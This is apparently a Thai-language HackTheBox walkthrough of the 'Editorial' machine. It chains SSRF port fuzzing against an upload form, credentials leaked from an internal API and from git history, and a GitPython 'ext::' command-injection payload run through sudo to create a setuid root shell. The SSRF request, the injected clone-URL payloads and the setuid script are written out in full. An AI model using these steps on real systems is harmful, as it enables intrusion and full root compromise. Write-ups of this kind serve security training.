 
## Host Scan

```bash
./scan.sh 10.10.11.20                                
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-15 09:06 +07
Nmap scan report for 10.10.11.20
Host is up (0.040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds

```



![[Challenge/HTB Challenge/Editorial/IMG/001.png]]

```bash
nc -lvnp 80
```

หากสำรวจเว็บจะพบว่ามีหน้า Publish with us ที่สามารถใส่ URL และสามารถ Upload ไฟล์ได้ ซึ่งหากลองทดอสอบใส่ข้อมูลตามภาพแล้วกด Preview จะพบว่ามี Connection ตอบกลับมาที่ nc ที่ได้ตั้งไว้ 
![[Challenge/HTB Challenge/Editorial/IMG/002.png]]

![[Challenge/HTB Challenge/Editorial/IMG/003.png]]

จากนั้นไปดูข้อมูลของ Request และเปลี่ยนข้อมูลเป็น 127.0.0.1 พบว่ามีการใช้งาน API  หลังบ้าน 
![[Challenge/HTB Challenge/Editorial/IMG/004.png]]


หากทดสอบ upload ข้อมูลผ่านช่อง url โดยเปิดให้สามารถ download ได้จะพบว่าสามารถ Upload ไปที่ API ปลายทางได้ 

![[Challenge/HTB Challenge/Editorial/IMG/005.png]]

จากข้อมูลดังกล่าวเป็นการโจมตีรูปแบบ SSRF ซึ่งเราจำเป็นต้องหาให้ได้ว่า Port ใดที่มีช่องโหว่ โดยเราสามารถนำ Request มาแก้ไขดังต่อไปนี้ 

```http
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------1612695082257348977393033666
Content-Length: 362
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload
Priority: u=0

-----------------------------1612695082257348977393033666
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------1612695082257348977393033666
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------1612695082257348977393033666--

```

## SSRF API Fuzzing 
จากนั้น save ข้อมูลดังกล่าวเป็นไฟล์ ssrf.request เพื่อนำไป Fuzzzing สำหรับหา Port ที่มีช่องโหว่ 

```bash
ffuf -u http://editorial.htb/upload-cover -request ssrf.request -w <( seq 0 65535) -ac -c 
```

![[Challenge/HTB Challenge/Editorial/IMG/006.png]]

จากตัวอย่างจะเห็นได้ว่า Port 5000 มีช่องโหว่ ซึ่งหากเราทดสอบ Request ด้วย http://127.0.0.1:5000 และนำข้อมูลที่ตอบกลับไปรันด้วยคำสั่ง crul จะพบการตอบกลับมาดังต่ไปนี้ 

![[Challenge/HTB Challenge/Editorial/IMG/007.png]]

เราสามารถตรวจสอบโดยการนำข้อมูลไปใส่ในช่อง URL: http://127.0.0.1:5000 จะได้ข้อมูล API มาด้านล่าง

![[Challenge/HTB Challenge/Editorial/IMG/008.png]]

หากทดสอบโดยใช้ URL ที่ได้จากก่อนหน้า เช่น http://127.0.0.1:5000/api/latest/metadata/messages/authors  เราก็จะได้ข้อมูลกลับมาตามภาพด้านล่าง 

![[Challenge/HTB Challenge/Editorial/IMG/009.png]]

ซึ่งจากข้อมูลนี้ทำให้เราได้ User และ password ดังนี้ 

## Cred.txt leak 

```
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.


dev:dev080217_devAPI!@
```


## PWN to SSH 

จากนั้นนำข้อมูลที่ได้ไปทดสอบเข้าด้วย SSH 
![[Challenge/HTB Challenge/Editorial/IMG/010.png]]

เมื่อเข้ามาจะพบกับ Folder App ที่มีไฟล์ .GIT

```
git log 
```

จากตัวอย่างจะเห็นได้ว่ามีข้อความเกี่ยวกับการ Downgrade ของระบบอยู่ 

![[Challenge/HTB Challenge/Editorial/IMG/011.png]]

ให้ทำการเปรียบเทียบ version ของทั้ง 2 Commit 

```
git diff b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae 1e84a036b2f33c59e2390730699a488c65643d28
```

![[Challenge/HTB Challenge/Editorial/IMG/012.png]]

จากข้อมูลจะเห็นได้ว่า มีข้อมูลของ Credential หลุดไป 

```
nUsername: prod
Password: 080217_Producti0n_2023!@
```

![[Challenge/HTB Challenge/Editorial/IMG/013.png]]

จากนั้น sudo -l จะพบว่ามีไฟล์ /opt/internal_apps/clone_changes/clone_prod_change.py 

```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
prod@editorial:~$ 

```

![[Challenge/HTB Challenge/Editorial/IMG/014.png]]


https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

จากข้อมูลช่องโหว่ จะพบว่าเราสาารถแทรก Payload ได้ 

```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

จากนั้นให้ทดสอบแทรก Payload ดังกล่าวเพิ่มเติม 
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned' 
```


![[Challenge/HTB Challenge/Editorial/IMG/015.png]]

จากตัวอย่างจะเห็นว่าเราสามารถใช้คำสั่ง touch สำหรับสร้างไฟล์ pwned บน /tmp ได้ 

## Privilege Escalation 

ต่อไปเราจะทำการสร้าง shell เพิ่อยกระดับสิทธิเป็น root โดยให้เราใร้าง Payload สำหรับรัน /bin/sh ในสิทธิ  root


```bash
echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/ice\nchown root:root /tmp/ice\nchmod 6777 /tmp/ice' 

echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/ice\nchown root:root /tmp/ice\nchmod 6777 /tmp/ice' > /dev/shm/ice.sh 

chmod +x /dev/shm/ice.sh

### RUN PAYLOAD 
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /dev/shm/ice.sh'

/tmp/ice -p 

```

# PWNED 